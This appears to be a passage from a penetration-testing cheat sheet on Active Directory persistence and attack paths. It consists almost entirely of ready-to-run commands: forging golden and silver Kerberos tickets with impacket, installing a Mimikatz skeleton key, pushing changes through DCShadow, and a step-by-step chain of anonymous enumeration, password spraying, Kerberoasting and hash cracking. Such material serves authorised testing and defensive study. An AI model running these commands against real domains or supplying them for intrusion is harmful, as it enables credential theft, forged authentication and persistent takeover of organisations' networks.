 ## Persistence

### Domain Persistence Methods

#### Golden Ticket (Long-term)
```bash
# Create persistent golden ticket (valid for 10 years)
impacket-ticketer -nthash <krbtgt-hash> -domain <domain> -domain-sid <domain-sid> -duration 87600 <fake-admin>
```

#### Silver Ticket (Service-specific)
```bash
# Create silver ticket for specific service
impacket-ticketer -nthash <service-hash> -domain <domain> -domain-sid <domain-sid> -spn <service-spn> <fake-user>
```

#### Skeleton Key (Requires DC compromise)
```bash
# Install skeleton key (allows any password)
mimikatz # privilege::debug
mimikatz # misc::skeleton

# Now any user can login with password "mimikatz"
```

#### DCShadow (Advanced persistence)
```bash
# Register fake DC and push malicious updates
# Requires very high privileges
mimikatz # !+
mimikatz # !processtoken
mimikatz # lsadump::dcshadow /object:<target-user> /attribute:ntPwdHistory /value:<new-hash>
```

## Common Attack Paths

### Path 1: Anonymous → Domain User → Domain Admin
```bash
# 1. Anonymous enumeration
enum4linux -a <target>
smbmap -H <target> -u null -p null

# 2. Find usernames
rpcclient -U "" -N <target>
rpcclient> enumdomusers

# 3. Password spray
crackmapexec smb <target> -u users.txt -p 'Password123!'

# 4. Kerberoast
impacket-GetUserSPNs <domain>/<username>:<password> -request -format hashcat

# 5. Crack and escalate
hashcat -m 13100 hashes.txt rockyou.txt
```
